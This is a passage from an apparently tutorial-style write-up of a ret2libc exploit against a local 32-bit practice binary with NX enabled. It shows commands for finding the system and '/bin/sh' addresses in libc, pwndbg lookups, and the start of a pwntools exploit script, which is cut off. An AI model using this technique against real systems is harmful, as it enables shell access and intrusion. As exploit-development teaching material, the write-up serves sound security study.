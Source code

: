     strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "bin/sh"
        15fa0f /bin/sh                    # <- this is our offset


We can assembly the shell location now via `base` + `offset`. 
It yields: `0xf7df7000` + `15fa0f` = `0xf7f56a0f`

#### find system

    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"
        246: 00116670    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
        628: 0003b060    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
        1461: 0003b060    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0        # this is our gem


We can assembly the shell location now via `base` + `offset` .
This yields: `0xf7df7000` + `0x3b060` = `0xf7e32060`



From here on we can assembly out final exploit.
We got everything we need.
Or we can do the following

#### The lazy non ASLR way :)

Print system position:

    pwndbg> print system
    $1 = {<text variable, no debug info>} 0xf7e32060 <system>

Search for a shell candidate:

    pwndbg> find &system, +99999999,  "/bin/sh"
    0xf7f56a0f
    warning: Unable to access 16000 bytes of target memory at 0xf7fb8733, halting search.
    1 pattern found.
    pwndbg>


This directly results in addresses we can use to craft our exploit


#### Final exploit   

Again a quick'n'dirty pwntools script:

{% highlight python %}
#!/usr/bin/env python

import argparse
import sys
from pwn import *
from pwnlib import *

context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln_with_nx')
libc = ELF('/lib/i386-linux-gnu/libc-2.24.so')


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    executable = './binary/vuln_with_nx'

    libc_base = 0xf7df7000

    binsh = int(libc.search("/bin/sh").next())